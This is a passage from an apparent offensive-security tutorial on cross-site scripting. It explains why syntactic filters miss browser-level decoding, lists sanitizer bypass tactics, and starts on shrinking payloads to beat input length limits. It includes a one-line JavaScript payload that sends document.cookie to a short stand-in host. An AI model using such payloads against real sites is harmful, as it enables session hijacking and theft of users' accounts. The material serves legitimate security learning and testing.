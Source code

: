 
## 🧠 Real-World Logic: Why This All Works

Most filters operate at a **syntactic** level:

* They look for literal patterns like `<script>`, `alert(`, or `"`
* They don’t interpret how a browser will **decode and execute** the content.

Browsers, meanwhile:

* Are **lenient and forgiving** — they “repair” broken markup.
* Decode HTML and JS **in stages**, which lets attackers sneak things through if they understand the execution flow.

---

## ✅ TL;DR

* **Sanitizers are often broken** — either by poor logic, improper escaping, or failure to handle browser quirks.
* Test what characters get changed.
* Try to bypass with encoding, escaping, tag trickery, or string breaking.
* Event handlers, script tags, and malformed nesting are your tools.

---


## 🎯 Bypassing Length Limits in XSS Payloads

When a web app **truncates or limits input length**, you’ve got 3 main counterattack strategies.

Each lets you deliver fully functional payloads despite size restrictions, and some can even **chain multiple injection points** or **escape input filters altogether**.

---

## ✅ Technique 1: 🔪 Shrinking Your Payload

### 💡 Idea:

Write **shorter payloads** using:

* Minimal syntax
* Smaller hostnames (e.g., `a`, `b`)
* JS APIs with short names
* Skipping unnecessary characters

---

### 🔧 Examples:

#### Injecting into JavaScript

```js
open("//a/"+document.cookie)
```
